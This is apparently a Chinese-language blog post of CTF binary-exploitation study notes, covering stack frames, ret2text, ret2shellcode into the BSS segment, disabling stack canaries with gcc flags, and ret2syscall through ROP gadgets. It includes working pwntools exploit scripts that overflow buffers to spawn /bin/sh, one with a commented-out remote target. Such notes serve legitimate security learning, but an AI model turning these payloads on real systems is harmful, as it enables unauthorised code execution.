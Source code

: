 ```yaml
---
layout: post
title: AFL-1
categories: ctf
description: Fuzzing-1
keywords: pwn
---
```

# pwn学习笔记

## 前置知识

程序调用栈：在用户空间最高地址的地方。从高地址向低地址增长

<img src="https://img1.imgtp.com/2023/09/14/Yc8HtShM.png" alt="栈位置" style="zoom:50%;" />

push 目标值压栈且SP指针-1字长(32bit/64bit)

pop目标值出栈且SP指针+1字长(32bit/64bit)

栈顶(最下面)对应的函数是正在执行的函数

bp指向当前栈帧的栈底，sp指向当前栈帧的栈顶

而当前栈底，也就是bp指向的位置，存放的是上一帧的栈底，因为返回时要让bp回到上一个函数栈底

ret就会pop到eip

bp上一个才是返回地址

![返回变化](https://img1.imgtp.com/2023/09/14/BI1eKKoU.png)

ctrl+shift+c复制 xor eax,eax; 把eax清空  (判断两个数是否为不一样的，eax存返回值，故此操作为清零eax)

在IDA中按G进行跳转地址  找/bin/sh按shift+Fn+F12后ctrl+F进行查找

## 1.ret2text

输入任意字符后

![调试](https://img1.imgtp.com/2023/09/14/QfmqCOsG.png)

可以看到eax也就是输入区域与ebp相差0x10--16字符 还需要覆盖ebp的4个字节(32位) 接着就可以输入想要返回的地址

![ret2text](https://img1.imgtp.com/2023/09/14/yVXGmMrm.png)

## 2.ret2shellcode(BSS写入)

checksec --file=ret2text

<img src="https://img1.imgtp.com/2023/09/14/tK1HvhZc.png" alt="checksec" style="zoom:67%;" />

只要ASLR打开就不可以在栈上写

输入的shellcode存在于栈或堆或bss缓冲区

bss默认有可执行权限 栈是否可执行看NS保护是否打开

ASLR地址随机化--每次载入栈地址都不同

/proc/sys/kernel/randomize_va_space

cat /proc/sys/kernel/randomize_va_space可以看到虚拟机地址随机化的程度

print(asm(shellcraft.sh()))转机器码 默认32位 要是攻击64位的print(asm(shellcraft.amd64.sh()))

查看虚拟内存的空间分布 看可读可写可执行区域

![vmmap](https://img1.imgtp.com/2023/09/14/BDkthcwJ.png)

下面看代码

<img src="https://img1.imgtp.com/2023/09/14/ZNatApOf.png" alt="主函数" style="zoom:67%;" />

函数的意思是将s中0x64长度拷入buf2中

虽然栈是可执行的但是ASLR默认打开，不知道远端服务器栈的位置无法执行可执行代码(写进去是可以的)

bss是固定的，可以获取地址且与远程一致   --》  使用shellcraft工具在bss代码段调用系统函数

可以看到，给出字符距离bp的长度

<img src="https://img1.imgtp.com/2023/09/14/hJjDemOL.png" alt="eg" style="zoom:67%;" />

如果两者出现错误，遵循动态调试的结果

下面进行动态调试

进行gdb调试，get之后写入栈中，查看栈的地址

<img src="https://img1.imgtp.com/2023/09/14/imeHfzU5.png" alt="查看栈" style="zoom:67%;" />

使用python3计算可得ebp-eax=108 与0x64不同，按照动态调试为准

108个垃圾数据加上ebp指针占4字节(32位)

下面书写payload

其中ljust是指左端数据不变一直向右补充某个数据(b'A')

```python
from pwn import *
io = process("./ret2shellcode")
#io = remote("106.54.129.202",10003)
buf2=0x804A080
payload=asm(shellcraft.sh()).ljust(112,b'A')+p32(buf2)
io.sendline(payload)
io.interactive()
```

![image-20230916165738954](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230916165738954.png)

![image-20230916171403860](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230916171403860.png)

## 3.ret2stack

canary防护措施 在ebp之前，先溢出到canary处再溢出到返回数据，由于溢出的是垃圾数据，将之前canary中的随机数据更改，canary检测到更改后就会退出当前程序。

```gcc
gcc -fno-stack-protector -z execstack -no-pie -g -o 执行文件 执行文件.c 
```

-fno-stack-protector 关闭canary      -z execstack 获得可执行权限     -no-pie关掉pie

## 4.ret2syscall(静态链接)

返回导向编程

ROPgadget --binary ret2syscall --only "pop|ret"

跟上要寻找的二进制文件 和要找的功能pop和ret

ROP动态过程

没有一步到位的地址来调用shell，在栈中写了一系列返回地址，在代码段连续跳转，所有gadget执行完后，最终系统调用本质上执行的kernel的代码

我们需要做的工作是

**mov eax, 0xb	mov ebx, [“/bin/sh”] 	mov ecx, 0	mov edx, 0	int 0x80	=>execve("/bin/sh",NULL,NULL)**

eax=0xb是因为系统调用号是0xb

先寻找有pop和ret指令的

![ROPgadget](https://img1.imgtp.com/2023/09/16/tAdMk9g5.png)

在IDA中按G进行跳转地址  找/bin/sh按shift+Fn+F12后ctrl+F进行查找

从局部变量写入pop的值和下一个返回地址和下一个pop的值和其他填充直到覆盖返回地址为第一个pop的地址

```bash
ROPgadget --binary ret2syscall --only "pop|ret" |grep eax
```

输出所有含有eax的pop,ret指令

![ROP1](https://img1.imgtp.com/2023/09/17/Q1Ql6xNY.png)

同样输出ebx的

![ROP2](https://img1.imgtp.com/2023/09/17/DF16uGre.png)

再查找int80的位置

```bash
ROPgadget --binary ret2syscall --only "int"
```

![ROP3](https://img1.imgtp.com/2023/09/17/LfgTN6Ov.png)

再寻找/bin/sh

从IDA中寻找

![IDA/bin/sh](https://img1.imgtp.com/2023/09/17/1NPC4ZGo.png)

或者在命令行中

```python
from pwn import *
elf = ELF("./ret2syscall")
hex(next(elf.search(b"/bin/sh")))
```

payload为

```python
from pwn import *
io = process("./ret2syscall")
eax=0xb
ebx=0x80BE408
ecx=0x0
edx=0x0
pop_eax_ret=0x80bb196
pop_edx_ecx_ebx_ret=0x806eb90
int_80h=0x8049421
io.recvline()
payload=flat([ b'A'*112,pop_eax_ret,eax,pop_edx_ecx_ebx_ret,edx,ecx,ebx,int_80h])
#flat list
io.sendline(payload)
io.interactive()
```

得到控制权

![final](https://img1.imgtp.com/2023/09/17/qryUd4zh.png)

图像加深理解：

![过程](https://img1.imgtp.com/2023/09/17/OCkAJ3Ur.png)

## 5.动态链接和静态链接

动态链接编译

gcc -fno-pie -o dytest test.c

静态链接编译

gcc -fno-pie --static -o statest test.c





